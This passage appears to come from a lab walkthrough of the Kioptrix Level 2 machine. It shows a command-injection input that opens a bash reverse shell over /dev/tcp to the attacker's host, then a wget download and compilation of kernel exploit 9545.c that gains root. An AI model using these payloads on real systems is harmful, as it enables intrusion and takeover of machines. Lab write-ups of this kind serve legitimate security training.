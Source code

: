 Enter the following input in the vulnerable web application: `192.168.56.102;bash -i >& /dev/tcp/192.168.56.102/7777>&1`.

The result was low privilege access:

```sh
kali@kali:~$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 51818
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
 13:38:36 up  2:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-3.00$ whoami
apache
sh-3.00$
```

I tried using `uname -a` on the target machine for version info, but I couldn't initiatelly find any exploits that worked with the information this gave me. I also checked the specific CentOS version with `ls /etc/*release*` and `cat /etc/redhat-release`, but both exploits found for this particular version didn't seem to work and the source code doesn't help much in figuring out why.

After seemingly running out of exploits to run, I decided to give the original list of kernel-based exploits a more thorough try rather than picking a few and moving on afterwards. Fortunately, this paid off with `9545.c`:

```sh
sh-3.00$ wget http://192.168.56.102:7777/9545.c
--14:21:24--  http://192.168.56.102:7777/9545.c
           =>  '9545.c'
Connecting to 192.168.56.102:7777... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9,783 (9.6K) [text/plain]

    0K .........                                             100%  777.48 MB/s

14:21:24 (777.48 MB/s) - '9545.c' saved [9783/9783]

sh-3.00$ gcc -Wall 9545.c
9545.c:376:28: warning: no newline at end of file
sh-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# whoami
root
```

## Storing passwords

It's worth mentioning a few other things I found after the command injection in the web application. Specifically, when I injected `ls` it listed the contents of the current directory on the target machine. That was `var/www/html`, which listed 2 files: `index.php` and `pingit.php`. Reading these files in a non-html environment (so from an actual shell on the target instead of from the web application), the following piece of code is found:
